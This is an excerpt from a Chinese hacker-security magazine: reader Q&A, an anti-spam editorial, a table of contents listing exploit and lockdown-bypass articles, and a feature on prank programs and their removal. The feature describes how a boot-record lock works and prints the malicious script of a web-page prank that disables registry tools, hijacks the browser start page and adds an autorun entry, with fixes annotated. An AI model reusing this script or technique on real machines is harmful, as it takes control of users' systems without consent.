不少朋友使用网上银行时遇到使用 128 位密钥长度的问题。我们一般使用的是 MSIE 浏览器，但是由于 MSIE 浏览器版本不同，其所支持的密钥长度也不同，旧的 IE 版本仅支持 40 位的密钥长度，IE 6.0 则支持 128 位的密钥长度。40 位的密钥暂时被认为是不安全的。一位美国的研究生做过实验，他只用了 8 个小时就破译了 40 位的密钥，因此如果需要使用网上银行的话，其对安全的要求是比较高的，所以需要 MSIE 支持 128 位密钥，以支持前面提到的 128-bit SSL。如果准备使用网上银行时，您浏览器支持的密钥长度不足，服务器将发出提示信息，提醒你升级浏览器的版本或者下载补丁。128 位的密钥长度则是相对安全的。你可以通过 IE > 帮助 > 关于 Internet Explorer(A) 来得知你的 IE 浏览器支持密钥的长度。

由于安全套接层 SSL 是一种网络安全协议，所以用户不需要知道发送和接收的消息是如何使用加密密钥加密和使用解密密钥进行解密的，安全套接层 SSL 会为你完成加密和解密。而安全套接层 SSL 基于数字证书，数字证书包含了秘密密钥加密法、公开密钥加密法及其他技术。

#### 四、结尾

当然，网上银行不仅仅采用上面谈到的几项技术，除了我们国内的许多网上银行采用了自主开发的加密技术来确保网上银行的可靠与安全外，还有许多手段加强安全性，比如防火墙技术、网络检测技术等等。网上银行只要解决了安全问题，“前景就会一片光明”，对此我深信不疑。由于网上银行安全问题的资料较少，文中不足之处希望各位朋友在黑防论坛发帖指出，本文如能起到抛砖引玉的作用，并能对大家在使用网上银行时有所帮助，我就心满意足了。

作为一本专注网络安全的媒体，话题当然离不开安全，离不开互联网。继 1.25“蠕虫王”后，电子邮件软件 Sendmail 被发现存在严重安全隐患，“口令蠕虫”又突袭我国互联网……互联网真可谓多灾多难，漏洞百出，幸运的是各大厂商还算反应及时，避免了灾难的蔓延。借此一角，我们期望各商家能够为最终用户着想，研发物美价廉的产品，定制切实可行的方案，共同捍卫网络安全事业。

### 问：我的网络防火墙无任何日志或报告，这是为什么？是防火墙坏了吗？

Bright：我觉得，这个问题要考虑 3 个方面。

1. 首先看你有没有设置防火墙规则，并且规定要记录某类通过的数据，以及防火墙是否正常运行；
2. 如果在安全情况下，防火墙没有相应规则规定要记录某类通过的数据，防火墙无日志或报告是正常的；
3. 如果网络防火墙在受到攻击或者有相应规则规定要记录某类通过数据而没有日志或报告的话，可能是因为网络防火墙某个组件损坏，建议重装网络防火墙。

### 问：请问内部局域网上 ADSL，如何加强服务器的安全性？

我现在作为服务器，别人通过我上 ADSL，如何加强抵御外部的侵入和内部的有意或无意的破坏？我用的是 Windows XP Professional，能否通过内部的管理工具的本地安全策略的修改来加强，或通过第三方软件来实现，还请各位编辑多多赐教。还有请问是 Windows XP 还是 2000 安全性高点？

Bright：不管什么系统，配置好了都是很安全的。在此，我们推荐比较成熟的 Windows 2000，安装 SP3 补丁，然后运行开始菜单的 Windows Update，进行更新，关闭 NetBIOS 服务，设置安全策略，关闭不必要的服务。（参考 2002 年《黑客防线》的“Windows 2000 Server 系统加固不完全指南”）。如果是 Windows XP 系统，在 Windows XP 系统中有默认的防火墙，（参见 2003 年《黑客防线》第 3 期）。个人认为 Windows XP 虽然性能不错，但还是感觉成熟的 Windows 2000 性能稳定。

### 问：我想知道怎样根据端口判断是否中了病毒或木马？

Bright：一般来讲，端口可分为 3 大类：

1. 公认端口（Well Known Ports）：从 0 到 1023，它们紧密绑定于一些服务。通常这些端口的通信明确表明了某种服务的协议。例如：80 端口实际上总是 HTTP 通信。
2. 注册端口（Registered Ports）：从 1024 到 49151。它们松散地绑定于一些服务。也就是说有许多服务绑定于这些端口，这些端口同样用于许多其他目的。例如：许多系统处理动态端口从 1024 左右开始。
3. 动态和／或私有端口（Dynamic and/or Private Ports）：从 49152 到 65535。理论上，不应为服务分配这些端口号。实际上，机器通常从 1024 起分配动态端口。但也有例外：SUN 的 RPC 端口从 32768 开始。

一般地，病毒、木马不会采用第一类，即 0—1023 端口。但是也有例外的，例如红色代码就是用 80 这个端口。所以，不能笼统地说某某端口出来的就一定是病毒、木马。

## 问：我电脑使用的是 3COM 的网卡，系统是 Windows 2000 Server Professional。检查网卡没有什么问题，网络设置也没有问题，CMOS 也检查了，但就是网络不通，局域网也不好用，不知道为什么？

Bright：常见的网络不通需要检查以下几个方面：网线是否有问题？网卡是否安装好？网卡驱动是否安装正确？系统设置是否正确？（如工作组、IP 地址、网关、DNS 等），再有就是检查硬件，网卡或者集线器、交换机是否工作正常，以及是否设置了代理。

## 问：我校用的是 Windows 2000 Advanced Server 做服务器。只有一个网段，IP 地址从 211.*.*.1 到 211.*.*.150，共有 100 多台机器。当我在机房上课时，想让学生都把他们的作品存到我的机器上，可是只能连上几个人，其他人都访问不了我的机器了。我怀疑是 Windows 2000 Server 的许可证的问题，对吗？有什么办法解决吗？

Bright：这可能是你在安装的时候，选择授权方式时选择的是每服务器且只有 10 个用户！你可以把这个数值改大一点，相信可以解决问题。



## 邮件

## 远离垃圾邮件

对于一个使用电子邮箱的网民，很少有人说没有收到过垃圾邮件，这些垃圾邮件让每个网络邮件使用者的邮箱空间被废物迅速填满，从而使得 ISP 们（网络服务提供商）的服务器负荷严重，同时，它们也妨碍了合法 Email 市场的运作，并使很多公司的商务活动因为沟通受阻而受到影响，给高科技产业带来了污染和损害，让每个网络邮件使用者深恶痛绝。

据 IDC 表示，目前全世界每天散布的网上垃圾邮件高达 730 亿封之多；而 Gartner 调查公司的调查数据也表明，企业用户每天收到的总邮件中有一半左右都是垃圾邮件，邮件已经成为了当今互联网上一个颇令人头痛的问题。

由于垃圾邮件浪费了带宽，这一点是 ISP 们必须面对的，糟糕的是，某些 ISP 因为没有控制垃圾邮件泛滥因此被列入黑名单，被很多世界其他的网络组织拒之门外，致使正常网络 Email 使用者不能交流。目前，北京和上海的一些 ISP 已经“榜上有名”了，他们被澳大利亚、美国和加拿大的一些组织禁止。所以我们必须扫除这一障碍，维护自己邮件正常使用权。

由于全球范围内的垃圾邮件散布行为有愈演愈烈之势，世界各大软件公司都加强了反垃圾邮件软件的开发工作。最近趋势科技公司（Trend Micro）与 Qurb 软件公司就推出了各自新型面对企业用户的反垃圾邮件工具。

近来，中国互联网论坛（简称 CIF）出现在公司（www.xianzai.com）在两大国际知名反垃圾邮件网站 www.cauce.org 和 www.spews.org 支持下创立，他们计划联手开拓澄清这些网络垃圾的一条路，与同行业的佼佼者一起为网络做“环保”，并希望吸引更多同道中人，为保持中国 IT 产业的快发展、标准化以及在世界同行业里的正常成长做一份工作。

2002 年 11 月，中国互联网协会成立了反垃圾邮件协调小组，近日，中国互联网新闻中心也发布了《反垃圾邮件规范》和《拒收垃圾邮件指南》，并于发布之日起实施，这意味着人们对治理垃圾邮件终于有了切实可行的办法。

那么作为普通的邮件使用者，我们一方面要依赖软件公司的成熟产品和 ISP 对反垃圾邮件过滤技术的巨额投资以及国家法令的严厉惩治；另一方面，邮件使用者自身要有反垃圾邮件意识，实施一些简便易行的防范措施。

最后，我们期望反垃圾邮件协调小组把教育、认知和技术结合起来，继续加强对互联网用户的宣传，让广大网民也加入到与垃圾邮件制造者斗争的队伍中来，反垃圾邮件的工作任重而道远，还需要依靠大家的力量。反垃圾邮件行动需要全行业的帮助、支持与合作，只有联合起来提高全行业反垃圾邮件的协作，提高公众反垃圾邮件意识，共同采取有效措施，才能有效制止垃圾邮件。

我们相信通过行业的协作和最终用户的参与，将会展现一个洁净的网络空间。

## CONTENTS

## 特别专题

- 30 种流行恶作剧软件查杀纵览 …… 4

随着电脑和网络的普及，许多人喜欢用恶作剧软件和朋友开玩笑过愚人节，而且还有将此扩之之势——就算不是愚人节，在平常的日子里，也有许多人用恶作剧软件来对付他人，常常令人有防不胜防之感，因此我们很有必要了解这些流行的恶作剧软件，因为只有知己知彼，方能百战不殆。

## 经验交流

- 对雷傲 LB5000 论坛最新漏洞的利用 …… 14

雷傲论坛是个不错的论坛，它有着访问速度快、易操作、可移植性高等多种优点，算网络中人气值较高的论坛之一！本篇文章是关于该论坛最近出现的新漏洞进行的分析，希望能为提高论坛的安全性有所帮助！

- 对留言板的简单测试 …… 15

一般情况下，大多数的个人主页都是申请免费的留言板，但免费的留言板往往有很多差强人意之处。这篇文章就是作者在面对一个免费留言板的一些安全隐患时，与朋友玩闹之时使用这种方式来恶作剧也许不错！

- 小谈网页垃圾 …… 16

某些小网站或个人主页，为了达到其增加访问量的目的修改系统设置，非常令网友们反感！本文的作者将从亲身经历来谈谈这方面的问题。

- 护花使者的一个小漏洞 …… 18
- 愚人节本地电脑整蛊小技巧六则 …… 19
- 让你的天网防火墙成为“正式版” …… 21

天网防火墙以前都可以免费注册升级，但是随着防火墙的升级、用户的增多，目前很多无产阶级却只能使用试用版，但是看到“试用版”又感觉很不爽，那么就自己动手来把它改为一个“伪正式版”，自得其乐一下，还可以学习一门技术。

- 无需密码也可进入 QQ …… 22
- 在 QQ 中给对方发送流光溢彩的特大字 …… 24
- Windows 2000 个人系统安全入门 …… 27
- Y365/8u8 网站上传 BUG …… 29
- 突破防火墙 BlackICE——一次入侵纪实 …… 30

BlackICE 是一道不可缺少的防线，但并不意味着其安全就做足一百。本文通过笔者一次入侵实例，希望能提醒众多用户，真正的安全往往来自于人本身……

- 一次 Cobalt Linux 的入侵 …… 34

如果是经常留意漏洞公告的读者，大概还记得前段时间介绍的 Cobalt RaQ4 Remote root Exploit 溢出漏洞吧？溢出程序和入侵方法大家一定想看看，管理员也请注意打好补丁。

- 一个邮箱炸弹的编程实现 …… 36

电子邮件是 Internet 上最普遍的服务，同时也是人们交流的首选，那么如何在程序中实现呢？本文用 VB 来实现基于 ActiveX 的 SMTP 控件。

- IP 查询小技巧 …… 37

### 黑兵器

- ETTERCAP——交换环境下的嗅探器 …… 38

谈到 Linux 下的嗅探工具，大家一定会想到 SNIFFIT、TCPDUMP。确实，如今大多 Linux 厂家把它们纳入安装盘里，用户可以自己选择安装。其中，最容易上手的当然是 SNIFFIT，只要输入一项选项，整个网络数据流通情况都可以一览无疑，可如果你是处在交换环境下，SNIFFIT 就会失效了。TCPDUMP 功能当然很强大，灵活的定制规则、丰富的表达式奠定了它的优秀，也加大了它的操作难度，这时候，ETTERCAP 就成为我们的首选嗅探器。

- 巧妙恢复备份文件 …… 41
- 用 Ssso 批量制作代理服务器 …… 42

代理服务器向来是我们感兴趣的话题，关于如何制作代理的问题也一度困惑着很多读者，那么如何用简单的方法制作代理是不是一种奢想呢？看完下文作者介绍的如何使用 Ssso 批量制作代理服务器，相信你一定会有所收获。

## 目录 CONTENTS

### e 生 e 事

- 网络邂逅 …… 44

## 网吧攻略

- 突破视窗锁王的防线 …… 47

视窗锁王是一款功能强大的安全保护软件，有许多初学者在使用它。该软件利用 Windows 底层的 VxD 技术在 Windows 95/98/Me 下实现了对硬盘的全面保护，它可以对硬盘上的任意分区、目录实现隐藏和防删除、防改写（只读）、抗恶性病毒传染，可防止资料被盗窃。软件使用简单，无须先对硬盘重新分区，是硬盘保护中理想的软件解决方案，广泛适用于学校机房、单位机房、网吧、电脑屋以及个人电脑的安全保护。

- 突破禁止下载的另几招 …… 49
- 写字板也能攻破美萍 …… 51
- 对《突破网吧限制全攻略》的补充 …… 52
- 妙用 Winamp 突破美萍的防线 …… 53
- 网吧管理软件安全漏洞攻防 …… 54

网吧虽然大都只是一个规模很小的局域网，但要想很好地管理维护却绝不比那些 Internet 上的服务器容易，因为你不光要维护服务器，还要保证每台客户机正常工作。了解并善用各类网吧管理软件，能大大减轻您的工作负担。本文详细叙述了几款此类软件的使用技巧，特别还针对这些软件的安全性进行了分析，如果你是一位网吧老板或者网吧管理员，不妨看看这篇文章。

- 网吧管理软件防破解措施集锦 …… 58

一般来说，网吧里主流的几个管理软件不外乎：美萍、网吧管理和万象幻境，不同的软件有不同的功能，而防御就必须有针对性地对症下药补漏。那么，首先让我们一起来看看网吧管理者们用的管理软件是如何被破解的，而我们又是如何去防御的，本文作者将一一道来。

## 密界寻踪

- 探索 OllyDbg 的“十全武功” …… 61

最近国内著名的加解密技术论坛——001 服务器上的“软件调试论坛”刮起了一阵 OllyDbg 的热风，很多逆向工程的经典问题都被重新提出来，一些新生代的高手们通过重新用 OllyDbg 一一演绎。

- TRW2000 得心应手密技五则 …… 64

TRW2000 是一款和 SoftICE 齐名的调试软件，它是中国人自己编写的，完全兼容 SoftICE 各条指令，是 Cracker 的必备武器。既然是国人开发所得，那么钟爱的朋友肯定有很多，久而久之就会有很多心得，这不，作者又整理了几则小技巧给大家。

- 一步一步学解密——敏思硬盘卫士破解实录 …… 66
- QQ 密码侦探终结者解密实战 …… 70

对于年轻的“上网”一族，拥有几个 QQ 实在是再平常不过，虽然腾讯一再强调要申请密码保护，但由于 QQ 一族日益增多，很多人保护意识不强，因此，每天都有人被别有用心者利用窃取 QQ 密码的工具窃取自己的靓号，而 QQ 密码侦探终结者就是对付这种行为的工具，不过需要付费才能无限制使用。下文是作者在研究 TRW2000 时的一点心得，吃透后就可以随心使用 QQ 密码侦探终结者了。

- 找回 WinZip 和 Office 上的密码 …… 72
- 菜鸟也破共享软件 …… 73
- 巧用 Crack 技术戳穿邮箱密码探测器 EmailKey 的谎言 …… 74

EmailKey 是一款电子邮箱密码探测器，在许多网站的下载排行中排在前列。据作者说非常简单易用，通过对 POP、POP3 邮箱密码进行探测，从而达到破解邮箱密码的目的，而且据说不用 30 秒即可完成。

### 编读互动

## 30种流行恶作剧软件

#### 查杀纵览

文／小蓉

每年4月1日，是西方的民间传统节日——愚人节。愚人节起源于法国。16世纪，法国首先采用格里历（即目前通用的阳历），这是教皇格利高利颁布的基督教徒的新历法，以每年的1月1日为一年之始。但一些因循守旧或没有听说此事的人依然按照旧历，在4月1日这一天送礼品庆祝新年。知道此事的人们对这些守旧者的做法大加嘲弄，有些聪明滑稽的人更是在4月1日那天给他们送假礼品，邀请他们参加假招待会，并把上当受骗的人称为“四月傻瓜”或“上钩的鱼”！从此，人们在4月1日那天互相愚弄开玩笑，便成为法国流行的风俗。18世纪初，愚人节习俗传到英国，接着又被英国的早期移民带到了美国，目前世界上许多国家的人都有过愚人节的习惯。愚人节最典型的活动还是大家互相开玩笑，以恶作剧的方式捉弄对方，却可以不会受到惩罚或批评。

随着电脑和网络的普及，许多人喜欢用恶作剧软件和朋友开玩笑过愚人节，而且还有将此风扩大的趋势——就算不是愚人节，在平常的日子里，也有许多人用恶作剧软件来对付他人，常常令人有防不胜防之感，因此我们很有必要了解这些流行的恶作剧软件，因为只有知己知彼，方能百战不殆。

恶作剧软件是软件中的另类，它带有一定的恶意玩笑成分，一般来说并不会给运行者造成数据损失等恶性破坏，这也是它们和真正的硬盘炸弹等恶意软件有所区别的地方。目前网上有许多这样的程序供人下载，特别是在愚人节期间，这些软件是最受欢迎的“武器”了，许多人用它们来和别人开玩笑、愚弄对方。对于老手来说，这没什么，但对于一些新手来说，如果不知道恶作剧程序，特别是那些比较恶毒的流行恶作剧软件的解法，就有可能受它们的摆布。而部分急于摆脱“魔爪”的朋友，情急之下采用了格式化硬盘或重装系统等极端招数，导致惨剧发生……因此，很有必要为大家介绍一下目前最流行的30种恶作剧程序的发作表现和破解方法，使大家对它们能有所防范，减少悲剧故事的发生，使您的愚人节过得更加轻松愉快。

### 1 ilr

发作表现：ilr文件大小只有15KB，这么小的程序能干些什么破坏呢？它是个捉弄人的程序，运行后会把硬盘上所有分区里的文件夹通通变成回收站，使得你无法通过点击进入该文件夹！ilr不破坏数据，它不会让你无法进入系统中，但是它会让你无法进入文件夹，使你干着急，因此可以用来跟朋友开开玩笑。

破解方法：用以下格式运行该软件即可：xxx.exe -recover，一定要加上参数“-recover”哦。

### 2 ScreenScrew

发作表现：执行该软件以后，整个屏幕将笼罩在一片阴影之中，无论执行任何程序都会处在阴影之下，使你无法看清自己的应用程序。这是一个没有恶意的、典型的纯恶作剧软件。

破解方法：通过 Ctrl+Alt+Del 终止其进程即可，或者注销当前用户，也可以重新启动电脑来解决问题。

### 3 三叶虫

发作表现：运行了“三叶虫”的主程序 iamsanyechong.exe 后（iamsanyechong.exe 可以任意改名），出现一个“我就是三叶虫”的窗口，如果此时你用“资源管理器”查看一下，会发现所有的盘符全没有了，包括软驱、光驱和硬盘。“回收站”也被改名为“三叶虫QQ：4518318”，“网上邻居”被改名为“E-空间”，“我的电脑”被改名为“三叶虫你真坏”，“我的文档”被改名为“三叶虫我会记住你的”。

“开始”菜单中的“运行”、“文档”、“收藏夹”、“查找”、“注销”等菜单也都消失了。同时，系统的所有热键都被屏蔽，比方说，Win键+R键可以打开“运行”对话框，在“三叶虫”的控制下，类似的热键都被屏蔽了，连热启动 Ctrl+Alt+Del 都惨遭“毒手”。检查系统，发现 C:\Windows\System 文件夹下新增 haha.exe 文件，这个文件在重新启动电脑后会自动加载运行，控制你的电脑。

点击“你真坏”按钮后，系统会越来越慢，然后开始重新启动电脑。重启后进入电脑时，会出现系统警告窗口，标题为：“对不起！您的电脑已被三叶虫所侵蚀，请下载杀虫剂！”另外，IE 浏览器的标题栏也被改为“您的电脑已被三叶虫所侵蚀，请下载杀虫剂，在 http://askjing.myetang.com!!”，简直就是当年那个害了许多人的“万花奇毒”的翻版！

破解方法：

- 方法1：执行杀虫软件（杀虫剂.exe），会提示“三叶虫”已经被清除了，重新启动该电脑后，又将回到被感染前的状态，所有盘符都回来了，注册表也恢复正常。该方法简单易行，只是你必须有恢复的软件才行。友情提醒：由于该程序隐藏所有硬盘驱动器，所以在执行“三叶虫.exe”之前，最好把“杀虫剂.exe”拖到桌面上，以便恢复。
- 方法2：在 DOS 下用 scanreg/restore 恢复注册表，然后再删除启动组中的 haha.exe 即可。

### 4 恐怖皮卡秋

发作表现：执行该程序后会播放 Flash 动画，开始出现一个卡通世界的地图，并且有许多小卡通动画的图像不断地来回显示。如果你在该动画界面上单击鼠标左键，那么画面将会开始闪烁，恐怖的事情就发生了：屏幕开始全屏，一个鬼魂似的老太太出现了，并且还向你招手呢！告诉我，你会害怕吗？

破解方法：按 Esc 键后回到窗口播放，然后只需点击该程序窗口右上角的“关闭”按钮即可退出。

### 5 少儿不宜

发作表现：执行该程序后将开始播放 Flash 动画，展现在你眼前的可能是一幅裸体的美女图画。未满18岁赶快离开不要看啦！随着画面的执行，越看越像一个裸体美女（充分发挥你的想像力吧），下面还有比较有诱惑力的文字呢！眼看就要成人形，让人意想不到的事情发生了：最后出现的竟然是一条狗而非美女！如果你的朋友满怀期望地看后会有什么感觉呢？呵呵！愚人节推荐！

破解方法：演示完毕后，只需点击该程序窗口右上角的“关闭”按钮即可。

### 6 江民炸弹

发作表现：如果你不小心运行了它，机器的硬盘将会被死锁住，无论你用软驱还是光驱，都不能启动计算机，硬盘和报废了没什么区别！如果不懂得解法，基本上就只有买硬盘了！

软件原理：计算机在引导 DOS 系统时将会搜索所有逻辑盘的顺序。当 DOS 被引导时，首先要去找主引导扇区的分区表信息，位于硬盘的零磁头零柱面的第一个扇区的 01BEH 地址开始的地方。当分区信息开始的地方为 80H 时表示是主引导分区，其他的为扩展分区，主引导分区被定义为逻辑盘 C 盘，然后查找扩展分区的逻辑盘，被定义为 D 盘，以此类推找到 E、F、G……“逻辑锁”就是在此下手，修改了正常的主引导分区记录，将扩展分区的第一个逻辑盘指向自己，DOS 在启动时查找到第一个逻辑盘后，查找下个逻辑盘时找到的总是自己，这样一来就形成了死循环，这就是使光驱、双硬盘都不能正常启动的原因。实际上，这“逻辑锁”只是利用了 DOS 在启动时的一个小小缺陷，便令不少高手都束手无策。知道了“逻辑锁”的“上锁”原理，要解锁也就比较容易了。

解压缩后有4个文件，一个是说明文件 readme.exe，一个是制作解锁盘用的文件 rescue.com，还有两个文件就是江民炸弹了。它们的名字分别为 Jmbs.arj、JMBOS.zip，其实它们都是一个文件压缩而成，只不过扩展名不同而已。如果你把它们解压会看到 jmbs.exe 文件，大小为1809字节。这个 jmbs.exe 就是江民炸弹了。把恢复文件 rescue.com 拷贝到一张空白的1.44MB软盘上，插入软驱，然后运行。显示“OK”之类的提示信息后，你就有了一张江民炸弹的解锁盘，如果你发现里面一个文件也没有，不要惊讶，你没有做错什么，就是这个样子的。快试试吧，用这张恢复盘启动机子，如果出现 unlock 的字样，那就恭喜你，成功地解锁了！

解决办法：作者提供了破解文件。

### 7 FUHD

发作表现：这是一个垃圾文件生成器，程序运行后会在各磁盘的每一个根目录、第一级子目录和第二级子目录生成随机文件名的垃圾文件。很久以前，有个软件 hdfill.exe 有相似的功能，但是该 hdfill 需要 VB4 的运行库才能运行，在没有 VB4 运行库的机器中不能运行该程序。而该程序是用 VB5 编写的，虽然存在运行库的问题，但 Win98 中已经带有 VB5 的运行库，所以该程序可以在许多电脑中运行成功，也就是说许多朋友都有中招的可能和危险！

- **FUHD.exe**：大小10752字节，所用图标为 VB5 的安装程序所用图标。直接在磁盘上生成垃圾文件，程序在后台运行，全过程没有任何提示。
- **setup.exe**：大小10752字节，所用图标为 VB5 的安装程序所用图标。运行后在后台生成垃圾文件。
- **Undo.exe**：大小6656字节。这是作者提供的删除上面两个 EXE 生成的垃圾文件的文件。
- **readme.txt**：说明文件。

所以，我们运行 Undo.exe 即可解决问题。

### 8 模拟FORMAT

发作表现：执行该程序以后，将出现一个格式化 C 盘的窗口，这可是我们的系统盘啊！无论你选择“Start”还是“Cancel”，程序都会开始格式化，怎么办呢？唯一的办法就是等，等它将 C 盘完全“格式化”。

破解方法：放心啦！这只不过是一个模拟 Format 的程序而已，实际上并未对 C 盘进行格式化。等模拟 Format 完成后点击“Close”按钮即可关闭。另外，该软件只能运行在 Windows 9X/ME 下，Windows 2000/XP 用户就不用担惊受怕了。

### 9 Fake_del

发作表现：执行该程序以后，将弹出一个询问是否删除文件到回收站的窗口，无论你选择“Yes”或“No”，它都开始删除操作，令人感到恐怖的是：被删除的文件居然是系统文件，全是 Windows 目录下的系统文件啊！但此时无法终止它，怎么办？

破解方法：当程序将 Windows 目录下的文件全部“删除”后，就会弹出一个窗口，告诉你这只是一个玩笑而已，然后选择“Close”即可退出。

### 10 Carem3

发作表现：如果不小心运行了 Carem3，会出现如图所示画面，此时鼠标被控制在一定范围内，无法点击屏幕上的按钮，按动回车键就会弹出个窗口警告你不要随意运行可执行程序，说这只是个教训之类的话，然后会自动重新启动电脑，但你再也无法进入心爱的 Windows 桌面了！如果你没有按动任何键，Carem3 也不会放过你，它会自动倒计时，从20秒到0就重新启动电脑，使你的系统崩溃！

软件原理：程序的基本原理是破坏 C:\windows\system\ 下的 vmm32.vxd 文件。vmm32.vxd 是虚拟设备驱动程序，正常文件大小 913413 字节，文件修改时间为 1999-01-13，就是由于它被破坏了：文件被替换为同名文件，大小变为 81531 字节，文件修改时间变为 1998-06-19，导致你的计算机不能进入 Windows 系统。幸运的是，该软件只能运行在 Windows 9X/Me 下。

破解方法：

- 方法1：在开机的时候按 F8 选择 Command prompt only 方式进入 DOS 下，之后在提示符后执行 repair，就可以解决了。如果你事先备份了 vmm32.vxd 文件，还可以用启动盘从 A 盘启动计算机，将备份的 vmm32.vxd 复制到 C:\windows\system 里，重新启动计算机就可以了。如果没有备份，到其他计算机上复制一个来吧。
- 方法2：除了上面说的那个方法，还有一个更简便的破解方法。我们在 Carem3.exe 刚运行后，倒计时时间未结束前，按住 Alt+F4 键关闭软件窗口（不要指望能通过按 Ctrl+Alt+Del 来终止它，作者早就将这些按键屏蔽了），此时你的鼠标将被锁定在桌面的某个小范围内（屏幕中央偏右一点），鼠标是无法使用了。但是如果你自己不重新启动电脑的话，Carem3.exe 也不会自动重新启动你的电脑——因为它已经被关闭了。此时的你可以使用键盘来操作，如果嫌麻烦，直接重新启动电脑即可。不要害怕，我们按 Alt+F4 时已经将软件关闭了，在破坏开始前就将它消灭了，所以这次重新启动电脑和我们平常重新启动电脑一样，是安全的。

### 11 新女鬼

发作表现：新女鬼是一款很另类的恶作剧软件，建议不要和有心脏病的朋友开这样的玩笑。与以前的女鬼软件不同的是，该女鬼功力大增，再生能力非常强，进程里杀都杀不掉。该软件运行后自动生成 .exe 文件，文件名是空格，位置在系统目录 `C:\windows\system\` 下，且还有另一个连环程序互相启动，所以进程里杀不掉。要注意的是，该软件运行后女鬼发作前在进程里是能够删除的，一旦发作，进程里就删不掉了。

破解方法：在 DOS 下可以删除该“女鬼”，删除时请注意，文件名是特殊空格，在 DOS 下输入该空格的方法是按住 Alt 键的同时按小键盘里面的 255。

### 12 旋转屏幕

发作表现：执行该程序以后，你眼前的整个屏幕将开始慢慢地从左到右移动，移动速度开始加快，越来越快，简直就是头晕目眩！一会儿以后，移动速度开始变慢直到停止。现在又开始从右到左移动，移动速度也是由慢变快，受不了吧！呵呵！

破解方法：把眼睛闭上或离开电脑40几秒钟。这是因为这个动作持续40秒左右就会自动退出，没有危害。另外，该软件只能运行在 Windows 95/98/Me 下，其他操作系统的朋友不会上它的当的。

### 13 ClickMe

发作表现：执行该程序以后，将出现一个“Clickme...”的按钮，如果你准备用鼠标去点击它，那么它就会随机地在屏幕上到处移动，不会让你点击成功。看着这个满屏幕乱跑的家伙，是不是有些束手无策？哈哈！

破解方法：要想破解它非常简单，用 Alt+Tab 键选择该按钮所在窗口，将其作为当前激活窗口，按“Enter”键即可。

### 14 阴魂不散

发作表现：阴魂不散是个恶毒的恶作剧软件，对系统有一定的危害。打开下载下来的 ZIP 文件后，你会发现里面有个 `ghost.htm` 文件，这就是这个危险的家伙。在运行后会锁定任何程序的运行，就连打开一个 TXT 文件，都会出现如图所示窗口，更不用说其他程序和文件了。这款恶作剧软件还会修改 IE 标题栏为“吓死我了”，同时更改 IE 的首页并将之锁定为 `http://www.haha168.com/pages/016/meimei.htm`，还会自动将该页加入到你的收藏夹中。另外，每次启动 IE 都试图连到上面的网页，你就会看到一个全屏显示的女鬼，还有凄凉的惨叫。不仅如此，每次启动 Windows 也会加载女鬼程序，让我们不堪重负的心脏再受一次考验。建议有心脏病等其他不适合看此类软件的人不要下载下来玩，更不可发给有此类疾病的人，否则真的很危险！

破解方法：其实，这只是个 html 网页文件，之所以能有这么大的“威力”，是由于点击后会修改我们的注册表，也就是说里面有恶意代码！如果你装有病毒防火墙，会查出来的。所以，我们只要修改注册表，就可以达到目的。最简单的方法是，在 DOS 下用 `Scanreg/restore` 命令恢复以前备份的注册表，这样就可以解决这个问题。

下面是运行阴魂不散的部分源代码，后面的“//”是我加的破解方法和注释：

```text
shl.RegWrite("HKCU\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\DisableRegistryTools", 1, "REG_DWORD"); // 禁止一切程序运行，把 DisableRegistryTools 改为 0 即可破解它。

Shl.RegWrite("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Start Page", "http://www.haha168.com/pages/016/meimei.htm"); // 修改 IE 首页。把 Start Page 的键值改为原先的即可。

Shl.RegWrite("HKLM\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "吓死我了！！！！！！"); // 修改 IE 标题栏为“吓死我了”，把 Window Title 的键值清空即可解决问题。

Shl.RegWrite("HKCU\\Software\\Microsoft\\Internet Explorer\\Main\\Window Title", "吓死我了！！！！！！！"); // 修改IE标题栏为“吓死我了”，把 Window Title 的键值清空即可解决问题。

Shl.RegWrite("HKEY_CURRENT_USER\\Software\\Policies\\Microsoft\\Internet Explorer\\Control Panel\\HomePage", "1"); // 让 IE 的默认首页成为灰色按钮不可选，将 HomePage 的键值改为 0 即可。

Shl.RegWrite("HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run\\ghost", "IExplore.exe"); // 让机器开机就运行 IE 浏览器 IExplore.exe，然后我们就可以看到那个女鬼了。删除 ghost 子键即可破解它。
